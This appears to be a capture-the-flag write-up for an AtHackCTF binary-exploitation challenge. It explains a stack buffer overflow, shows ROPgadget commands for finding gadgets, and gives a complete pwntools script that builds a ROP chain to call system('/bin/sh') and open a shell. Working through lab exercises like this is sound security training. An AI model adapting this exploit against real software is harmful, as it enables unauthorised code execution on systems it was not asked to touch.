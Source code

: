 ```yaml
---
title: PWN1
date: 2021-12-01 19:57:00 +0300
categories: [Writeup, AtHackCTF]
tags: [AtHackCTF]     # TAG names should always be lowercase
---
```







 



### Description:

binary exploit

### Difficulty:

`easy`

### Solve

this challenge is stack-based buffer overflow with stack canary disabled. ROP chain.

steps to solve:
- figure out the vulnerability using a decompiler like IDA.
- participants should notice a variable of length 10 that is receiving 170 bytes of input (buffer overflow)
- we don't have a win function here so participants should build a ROP chain to call system("/bin/sh")
- we don't have a LIBC leak to calculate /bin/sh address and system address but those 2 are implemented in the binary which
  doesn't have PIE protection enabled.
- extract system and /bin/sh from the binary using GDB or IDA
- build the ROP chain and overwrite the saved return pointer with our payload.
- fix stack alignment to execute the system.


I got the pop_rdi and ret gadget by running these
two commands :
```
ROPgadget --binary main | grep "ret"
```

![image](https://user-images.githubusercontent.com/54814433/144630420-bcdd493d-1d8e-43ec-9aeb-60cce052dc40.png)


And got the addr 0x40050e


As for the pop rdi:

```
ROPgadget --binary main | grep "pop rdi"
```

![image](https://user-images.githubusercontent.com/54814433/144630573-371b436f-bba5-42aa-9a94-d4c17bb38b8a.png)


and then with pwntool module we can build a python script to get an interactive shell and read flag.txt

i wrote this python script for this task

```
from pwn import *


system=0x400520
binsh=0x400764
pop_rdi=0x0000000000400723
ret_gadget=0x000000000040050e

p=process("./main")
#p=remote("127.0.0.1",9032)
payload=""
payload+="A"*40
payload+=p64(ret_gadget) #stack allignement
payload+=p64(pop_rdi)
payload+=p64(binsh)
payload+=p64(system)
pause()
p.sendline(payload)
p.interactive()

```

and i got the shell :D


![image](https://user-images.githubusercontent.com/54814433/144636072-689cd993-bbc7-442b-9a0a-dd6a660fed06.png)

